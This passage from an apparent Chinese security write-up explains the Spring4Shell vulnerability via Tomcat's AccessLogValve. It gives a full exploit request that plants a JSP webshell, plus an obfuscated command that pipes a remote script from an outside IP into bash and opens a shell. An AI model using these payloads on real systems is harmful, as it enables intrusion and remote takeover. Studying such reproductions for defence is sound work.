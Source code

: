 可以看到，直接就调用了对应的方法，通过`BeanWrapperImpl`可以很方便地访问和设置Bean的属性，比直接使用`PropertyDescriptor`要简单很多

## Tomcat AccessLogValve 和 access_log

这是这次漏洞的一个关键点的地方

Tomcat的`Valve`用于处理请求和响应，通过组合了多个`Valve`的`Pipeline`，来实现按次序对请求和响应进行一系列的处理。其中`AccessLogValve`用来记录访问日志access_log。Tomcat的`server.xml`中默认配置了`AccessLogValve`，所有部署在Tomcat中的Web应用均会执行该`Valve`，内容如下：

```XML
<Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
               prefix="localhost_access_log" suffix=".txt"
               pattern="%h %l %u %t &quot;%r&quot; %s %b" />
```

下面列出配置中出现的几个重要属性： - directory：access_log文件输出目录。 - prefix：access_log文件名前缀。 - pattern：access_log文件内容格式。 - suffix：access_log文件名后缀。 - fileDateFormat：access_log文件名日期后缀，默认为`.yyyy-MM-dd`

# 漏洞复现

发送数据包

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 192.168.121.132:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```

然后访问

```
http://192.168.121.132:8080/tomcatwar.jsp?pwd=j&cmd=bash%20-c%20%7Becho%2CY3VybCA0Ny45My4yNDguMjIxfGJhc2g%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D
```

收到了弹过来的shell
